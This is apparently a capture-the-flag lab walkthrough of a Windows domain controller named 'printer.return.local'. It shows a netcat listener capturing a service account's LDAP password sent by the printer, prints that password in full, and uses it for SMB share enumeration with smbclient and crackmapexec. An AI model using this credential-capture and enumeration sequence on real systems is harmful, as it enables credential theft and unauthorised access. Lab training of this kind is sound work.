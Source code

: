 ```
Priority: u=0, i

ip=printer.return.local
```

ip is only field... ill put my ip and start nc -lvnp 389 see the traffic...
```
nc -lnvp 389                                                                
listening on [any] 389 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.108] 62937
0*`%return\svc-printer�
                       1edFg43012!!
```

nice so this whole time looked like i wasnt updating the password... 
`svc-printer`:`1edFg43012!!`

```
ldapwhoami -H ldap://10.10.11.108 \
  -D 'return.local\\svc-printer' -w '1edFg43012!!^C' -x -o nettimeout=5
... no auth
same with printer.return.local
```
lets try smb again:
```
smbclient -L //10.10.11.108/ -U 'svc-printer'
Password for [WORKGROUP\svc-printer]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.108 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

word!

lets check permissions with crackmap(switch it up):
```
crackmapexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          [+] Enumerated shares
SMB         10.10.11.108    445    PRINTER          Share           Permissions     Remark
SMB         10.10.11.108    445    PRINTER          -----           -----------     ------
SMB         10.10.11.108    445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.10.11.108    445    PRINTER          C$              READ,WRITE      Default share
SMB         10.10.11.108    445    PRINTER          IPC$            READ            Remote IPC
SMB         10.10.11.108    445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.10.11.108    445    PRINTER          SYSVOL          READ            Logon server share 
```
lets look thru... 
admin has a lot ill revisit, looking for quick win

